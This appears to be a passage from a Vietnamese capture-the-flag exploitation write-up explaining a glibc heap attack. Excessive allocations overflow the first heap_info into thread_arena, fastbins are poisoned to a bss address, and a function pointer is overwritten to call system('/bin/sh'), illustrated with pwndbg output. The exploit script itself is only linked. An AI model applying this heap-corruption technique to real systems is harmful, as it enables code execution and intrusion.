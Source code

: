 Nhận thấy nếu spam malloc cho tới khi new `heap_info` được phân vùng từ `0x7fffec000000` đến `0x7ffff0000000` thì có thể overflow được first `heap_info` ==> overflow được `thread_arena`
```
    0x7fffe8000000     0x7fffebffd000 rw-p  3ffd000 0      
    0x7fffebffd000     0x7fffec000000 ---p     3000 0      
    0x7fffec000000     0x7ffff0000000 rw-p  4000000 0     <=== current heap_info 
    0x7ffff0000000     0x7ffff3ffd000 rw-p  3ffd000 0     <=== first heap_info 
```

Như vậy tôi đã hoàn thành đến 80% rồi. Tiếp theo là ghi đè `thread_arena` vì `thread_arena` được cấp phát tại first `heap_info`
```
pwndbg> arenas
[            main]           0x603000           0x624000 rw-p    21000 0      [heap]
[  0x7ffff0000020]     0x7ffff00008b0     0x7ffff3ffd8b0 rw-p  3ffd000 0      
pwndbg> 
```
Ở đây tôi ghi đè vào vùng fastbins của `thread_arena` với một địa chỉ trong bss thỏa mãn có thể cấp phát với kích thước `0x60`
```
pwndbg> telescope 0x60201d
00:0000│   0x60201d ◂— 0xfff7bb48e0000000
01:0008│   0x602025 (stdin+5) ◂— 0x7f
02:0010│   0x60202d ◂— 0x0
03:0018│   0x602035 ◂— 0x400af8000000
04:0020│   0x60203d ◂— 0x0
... ↓
pwndbg> 
```
```
pwndbg> bins 0x7ffff0000020
fastbins
0x20: 0x60201d ◂— 0x0
0x30: 0x60201d ◂— 0x0
0x40: 0x60201d ◂— 0x0
0x50: 0x60201d ◂— 0x0
0x60: 0x60201d ◂— 0x0
0x70: 0x60201d ◂— 0x0
0x80: 0x60201d ◂— 0x0
unsortedbin
```
Việc còn lại là overflow ghi đè giá trị của `func_602038` thành địa chỉ `system` và trigger `system("/bin/sh")`

Source exploit : [exploit.py](exploit.py)


